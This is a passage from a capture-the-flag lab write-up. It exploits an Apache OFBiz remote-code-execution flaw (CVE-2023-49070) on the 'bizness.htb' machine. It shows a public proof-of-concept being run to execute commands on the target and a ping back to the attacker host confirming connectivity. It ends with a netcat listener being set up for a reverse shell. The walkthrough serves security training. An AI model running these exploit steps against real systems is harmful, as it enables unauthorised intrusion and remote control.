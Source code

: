 Then we create a local `exploit.py` and paste the code from the PoC [https://github.com/abdoghazy2015/ofbiz-CVE-2023-49070-RCE-POC/blob/main/exploit.py](https://github.com/abdoghazy2015/ofbiz-CVE-2023-49070-RCE-POC/blob/main/exploit.py).

Executing the python script and we run into this error.

```shell
labadmin@labmachine:~/bizness $ python3 exploit.py https://bizness.htb rce id

        Command didn't executed, please make sure you have java binary v11
        this exploit tested on this env
        openjdk version "11.0.17" 2022-10-18
        OpenJDK Runtime Environment (build 11.0.17+8-post-Debian-2)
        OpenJDK 64-Bit Server VM (build 11.0.17+8-post-Debian-2, mixed mode, sharing)
```

The ysoserial need java 11, so we make sure it is installed and set is as default by using `update-alternatives`.

```shell
labadmin@labmachine:~/bizness $ sudo update-alternatives --config java
```

Before we attempt to get a shell, we try send ICMP packets to our attacking machine by running ping command.

As first step we setup tcpdump to catch ICMP packets.

```shell
labadmin@labmachine:~/bizness $ sudo tcpdump -i tun0 icmp
```

Then we send ping from target machine to our attack machine using the script again.

```shell
labadmin@labmachine:~/bizness $ python3 exploit.py https://bizness.htb rce 'ping -c 1 10.10.14.35'
Not Sure Worked or not
```

Back the tcpdump and we see the ping.

```shell
labadmin@labmachine:~/bizness $ sudo tcpdump -i tun0 icmp
dropped privs to tcpdump
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
06:10:14.878583 IP bizness.htb > labmachine: ICMP echo request, id 61373, seq 1, length 64
06:10:14.878746 IP labmachine > bizness.htb: ICMP echo reply, id 61373, seq 1, length 64
```

Once we confirmed connectivity we setup a reverse shell.

Start local netcat listener.

```shell
labadmin@labmachine:~/bizness $ nc -lvnp 8000
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on [::]:8000
Ncat: Listening on 0.0.0.0:8000
```
